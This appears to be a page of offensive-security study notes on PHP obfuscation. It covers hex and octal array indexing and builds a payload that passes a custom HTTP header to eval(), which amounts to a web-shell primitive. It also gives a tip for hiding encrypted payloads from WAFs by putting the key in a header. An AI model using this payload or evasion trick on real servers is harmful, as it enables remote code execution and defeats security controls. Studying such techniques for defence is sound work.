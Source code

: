 ## Accessing Individual Index of Array
```php
$a = array(x=>123, xx=>456); // This could be a $_GET, $_POST, or any another superglobal

echo $a['x']; // 'normal' usage > 123
echo $a[x]; // index without quotes > 123
echo $a["\x78"]; // hexadecimal notation > 123
echo $a["\170"]; // octal notation > 123
echo $a['x'.@false."\x78"];// 'normal' usage with padding and hex.notation> 456
```
## Superglobals
Superglobals can be very useful to the obfuscation process. One example is `$_SERVER` which is full of interesting fields. We can manipulate these to both increase the obfuscation level and evade security mechanisms such as WAFs.

For example, we can generate our requests client-side and either send headers like `User-Agent`, `Accept-Encoding`, or even send customized headers like `CustomHeader`. Combining what was discussed on [String Data Types](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FEvasions%20and%20Bypasses%2FEvasion%20Techniques%2FPHP%20Obfuscation%20Techniques%2FString%20Data%20Types), we can generate the following payload.
```php
echo <<<🍺
I{$_GET[eval($_SERVER['HTTP_CUSTOMHEADER'])]}Love beer
🍺;
```
> Note: A simple way to evade WAFs is to not only send your payload encrypted by using GET or POST, but also the key to decrypt via a custom header.